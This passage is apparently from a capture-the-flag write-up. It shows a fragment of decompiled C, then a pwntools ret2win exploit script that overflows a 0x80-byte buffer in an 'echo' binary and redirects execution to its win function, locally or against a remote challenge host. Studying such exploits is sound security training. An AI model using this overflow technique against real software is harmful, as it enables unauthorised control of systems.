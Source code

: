 ```c=
LAB_0040126a:
    iVar1 = fgetc(__stream);
    local_11 = (char)iVar1;
  } while (local_11 != -1);
  fclose(__stream);
  return;
}
```

- Simply, we've to hijack control flow with **ret2win attack**, so we can start executing `win` function after `ret` main.
- Here's my exploit script for this challenge.

```python=
#!/usr/bin/env python3
#filename: exploit.py

from pwn import *

context.binary = elf = ELF("./echo", checksec=0)
context.log_level = "debug"

# Prepare the payload.
win_addr = p64(elf.symbols['win'])
payload = b"A"*0x80 # --------------< Buff size.
payload += b"B"*0x8 # --------------< Old RBP.
payload += win_addr # --------------< Jump to win_addr.

# Send the payload.
is_remote = False # change to True if you want to run remotely.

if is_remote:
	io = remote("challenge.ctf.games", 31084)
else:
	io = elf.process()

io.sendline(payload)
io.interactive()
```

- Create a sample `flag.txt` file to run the exploit script locally. If it success, then we can run the exploit script remotely. Just change the `is_remote` variable to `True`.
- And we got the flag.
